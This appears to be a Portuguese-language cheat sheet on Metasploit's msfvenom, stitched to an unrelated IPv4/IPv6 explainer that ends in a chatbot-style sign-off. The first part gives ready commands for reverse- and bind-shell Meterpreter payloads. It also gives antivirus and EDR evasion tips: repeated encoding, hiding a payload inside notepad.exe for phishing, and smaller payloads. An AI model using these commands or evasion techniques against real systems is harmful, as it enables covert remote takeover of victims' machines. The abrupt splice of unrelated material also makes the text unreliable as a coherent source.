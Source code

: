 O **MSFVenom** é uma ferramenta do **Metasploit** usada para gerar payloads e executáveis, combinando as funcionalidades de `msfpayload` e `msfencode`. Ele é essencial em testes de penetração para gerar payloads personalizados que podem ser usados em ataques direcionados.

## Estrutura Básica do MSFVenom

A estrutura básica do comando `msfvenom` é:

`msfvenom -p <payload> LHOST=<IP> LPORT=<Porta> -f <formato> -o <arquivo_saida>`

- **`-p` (Payload)**: Define o tipo de payload, por exemplo, `windows/meterpreter/reverse_tcp`.
- **`LHOST` e `LPORT`**: Define o IP e a porta que serão usados para a conexão reversa.
- **`-f` (Formato)**: Define o formato de saída, como `exe` para Windows, `elf` para Linux ou `raw` para código bruto de shellcode.
- **`-o` (Saída)**: Define o nome do arquivo de saída. Se não especificado, o output será exibido no console.

## Exemplos de Uso do MSFVenom

### Exemplo 1: Payload reverso para Windows

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell_reverse.exe`

### Exemplo 2: Payload de ligação para Linux

`msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=4444 -f elf -o bind_shell.elf`

### Exemplo 3: Payload em formato raw (somente shellcode)

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shellcode.bin`

## Parâmetros Adicionais para Personalização

- **`-a`**: Define a arquitetura do payload, como `x86` ou `x64`.
- **`--platform`**: Especifica a plataforma alvo, como `windows`, `linux` ou `osx`.
- **`-e`**: Define o encoder para ofuscação do payload. Exemplo: `-e x86/shikata_ga_nai`.
- **`-i`**: Define o número de vezes que o encoder será aplicado, aumentando a dificuldade de detecção. Exemplo: `-i 5`.
- **`--bad-chars`**: Define caracteres a serem evitados no shellcode, como caracteres nulos `\x00`.
- **`-x`**: Insere o payload em um arquivo template (útil para mascarar o payload em executáveis comuns).

## Técnicas Anti-Detecção

Para evitar a detecção por antivírus e EDR (Endpoint Detection and Response), considere as seguintes técnicas:

### 1. Uso de Encoders

Encoders aplicam uma camada de codificação ao payload, dificultando a detecção por assinaturas. Exemplo:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o bypassed_shell.exe`

### 2. Template com `-x`

Permite incluir o payload em executáveis legítimos, como um instalador de software, útil em ataques de phishing:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -x notepad.exe -k -f exe -o hidden_shell.exe`

### 3. Ofuscação Avançada

Combine encoders e use formatos alternativos como `raw` ou `hex`, passando o código para scripts que geram executáveis posteriormente.

### 4. Payloads Menores e Códigos Customizados

Payloads menores ou personalizados podem evitar a detecção por assinatura. A opção `-s` limita o tamanho do payload:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -s 200 -f exe -o small_shell.exe`

### 5. Execução na Memória

Com o `Meterpreter`, é possível carregar e executar o payload diretamente na memória, sem escrita no disco, reduzindo a detecção.

## Dicas Finais para Evitar Detecção

- **Combine múltiplas técnicas**, como encoders e payloads customizados.
- **Teste em ambientes com antivírus** para ajustar as técnicas.
- **Utilize ferramentas pós-exploração do Meterpreter** para minimizar detecção durante a exploração.

**Endereçamento IPv4 e IPv6** são dois tipos de endereços IP usados na comunicação de dispositivos em redes de computadores. Vou detalhar cada um deles abaixo:

### Endereçamento IPv4

- **IPv4 (Internet Protocol version 4)** é a quarta versão do protocolo de Internet e a mais amplamente utilizada.
- Um **endereço IPv4** consiste em **32 bits** (ou 4 bytes), geralmente representados por quatro números decimais separados por pontos (por exemplo, 192.168.1.1). Cada número pode variar de 0 a 255.
- O IPv4 permite cerca de **4,3 bilhões de endereços únicos**, que estão se esgotando devido ao rápido crescimento da Internet e da quantidade de dispositivos conectados.
- Endereços IPv4 podem ser divididos em **classes** (A, B, C, D e E) e podem ser configurados em **redes públicas** ou **privadas**. O NAT (Network Address Translation) é comumente usado para prolongar o uso dos endereços IPv4, permitindo que vários dispositivos em uma rede local compartilhem um único endereço IP público.

### Endereçamento IPv6

- **IPv6 (Internet Protocol version 6)** é a versão mais recente do protocolo, desenvolvida para resolver a escassez de endereços IPv4.
- Um **endereço IPv6** possui **128 bits** (ou 16 bytes), geralmente representados por oito grupos de números hexadecimais separados por dois pontos (por exemplo, 2001:0db8:85a3:0000:0000:8a2e:0370:7334).
- O IPv6 suporta um número gigantesco de endereços únicos, estimado em cerca de **3,4 x 10^38**, o que é suficiente para acomodar o crescimento da Internet e todos os dispositivos futuros.
- O IPv6 possui algumas melhorias em relação ao IPv4, incluindo uma **configuração mais simplificada** (com suporte a autoconfiguração de endereços), **segurança aprimorada** e **gerenciamento mais eficiente de tráfego**.

### Comparação entre IPv4 e IPv6

|Característica|IPv4|IPv6|
|--------------|----|----|
|Comprimento do endereço|32 bits|128 bits|
|Formato|Decimal (ex.: 192.168.0.1)|Hexadecimal (ex.: 2001:db8::ff00:42)|
|Capacidade de endereços|~4,3 bilhões|~340 undecilhões|
|Configuração|DHCP ou manual|Autoconfiguração e DHCPv6|
|Suporte a NAT|Necessário (devido à falta de endereços)|Não necessário (devido à abundância de endereços)|
|Segurança|Opcional (IPSec)|Nativo (IPSec é obrigatório)|

O **IPv6** foi criado para atender às demandas futuras, enquanto o **IPv4** ainda é amplamente utilizado. Hoje, a transição do IPv4 para IPv6 está em andamento e muitos dispositivos e redes suportam ambos os tipos de endereçamento simultaneamente, utilizando um mecanismo chamado de **dual stack**.

Se precisar de mais detalhes sobre como funciona cada versão, fique à vontade para perguntar!

